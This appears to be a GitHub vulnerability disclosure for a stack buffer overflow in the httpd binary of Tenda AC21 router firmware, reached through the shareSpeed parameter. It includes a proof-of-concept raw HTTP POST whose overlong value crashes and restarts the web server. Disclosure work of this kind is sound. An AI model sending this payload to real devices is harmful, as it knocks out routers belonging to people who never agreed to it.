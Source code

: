 # Tenda AC21(V16.03.08.15) contains Stack Buffer Overflow Vulnerability

## overview

- Manufacturer's website information：https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-3419.html

## product information

Tenda A21(V16.03.08.15), latest version of simulation overview：

![image-20220902192028747](readme.assets/image-20220902192028747.png)

## description

### 1. Vulnerability Details

Tenda AC21(V16.03.08.15) contains a stack overflow vulnerability in file `/bin/httpd`, function`fromSetWifiGusetBasic`

Attacker can use this vulnerability via the`shareSpeed` parameter.

![image-20220902200821585](readme.assets/image-20220902200821585.png)

it calls `strcpy(v12, v7)` and `v12` is on the stack, so there is a stack buffer overflow vulnerability. 

### 2. Recurring loopholes and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/WifiGuestSet HTTP/1.1
Host: 192.168.0.1
Content-Length: 23
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/system_time.html?random=0.9865714904007963&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

shareSpeed=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```

By sending this poc, we can cause `httpd` reboot. 

![image-20220902201539206](readme.assets/image-20220902201539206.png)

![image-20220902201547354](readme.assets/image-20220902201547354.png)